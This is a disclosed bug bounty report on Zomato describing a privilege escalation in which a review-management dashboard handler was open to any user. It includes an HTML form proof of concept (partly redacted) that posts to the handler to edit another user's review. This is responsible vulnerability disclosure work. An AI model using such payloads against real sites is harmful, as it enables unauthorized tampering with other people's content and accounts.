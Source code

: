 # [www.zomato.com] Privilege Escalation - Control reviews - /████dashboard_handler.php

## Report Details
- **Report ID**: 300099
- **URL**: https://hackerone.com/reports/300099
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2017-12-22T18:51:47.061Z
- **Disclosed**: 2018-03-29T16:58:58.029Z

## Reporter
- **Username**: gerben_javado
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: zomato

## Vulnerability Information
#Introduction 
The handler that controls all the ███ actions for reviews is accessible for any user. The following actions are thus being left open to anyone: 

```
get_manager_status
read███████
unread██████████
████████
feature██████
unfeature████████
moderate████
unmoderate█████
drop
███
send_mail
█████████
revoke
mark-spam
spam-revoke
remove-██████
add-█████████
reject_reported█████████
███████
```
Taken from the following [██████████]████████

#POC
This POC will use the action `██████` since it easily allows us to edit any review on Zomato.com. More severe options could be ██████ to read user info.

```html
<form action="https://www.zomato.com/██████████dashboard_handler.php" method="POST">
      <input type="hidden" name="action" value="█████" />
      <input type="hidden" name="review_id" value="31268525" />
      <input type="hidden" name="review" value="Privilege+Escalation" />
      <input type="submit" value="Submit request" />
</form>
```

Go to https://www.zomato.com/review/QvneAY and see the review has changed.

## Impact

Any user is able to control all the ████ actions for the reviews section including emailing, deleting, editing and adding to ██████████.

## Attachments
No attachments
